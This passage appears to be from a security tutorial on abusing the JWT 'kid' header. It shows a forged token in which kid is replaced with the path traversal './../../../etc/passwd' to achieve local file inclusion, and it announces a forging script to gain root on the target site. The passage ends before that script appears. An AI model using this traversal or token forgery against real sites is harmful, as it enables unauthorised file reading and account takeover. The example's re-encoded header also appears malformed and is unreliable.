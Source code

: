   1. Local File Inclusion.

  2. Sql Injection.

  3. Command Execution.

### Local File Inclusion

Let's Take an Example :

#### Token

```js
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6IjEifQ.eyJ1c2VyIjoiYW5hcyJ9.spzCikhspCdf6XAUci3R4EpJOH6gvZcvkDCVrkGbx7Y
```

After Decoding `header` :

Note: You can decode base64 using methods mentioned above.

Header:

```js
{
  "typ":"JWT",
  "alg":"HS256",
  "kid":"1"
}
```

Currently `kid` is `1` now let's replace `1` with `./../../../etc/passwd` and again encode it and send it to the site.

```js
{
  "typ":"JWT",
  "alg":"HS256",
  "kid":"./../../../etc/passwd"
}
```

After Encoding Header:

`e3R5cDpKV1QsYWxnOkhTMjU2LGtpZDouLy4uLy4uLy4uL2V0Yy9wYXNzd2R9Cg`

Full Token:

`e3R5cDpKV1QsYWxnOkhTMjU2LGtpZDouLy4uLy4uLy4uL2V0Yy9wYXNzd2R9Cg.eyJ1c2VyIjoiYW5hcyJ9.spzCikhspCdf6XAUci3R4EpJOH6gvZcvkDCVrkGbx7Y`

replace this with the old token and refresh and voila! we got LFI.

Now let's forge our token and become root user on the site.
For this we need to write simple script in python/ruby.

#### Ruby Script

we need to understand first how to sign our token using ruby don't worry it is very simple.
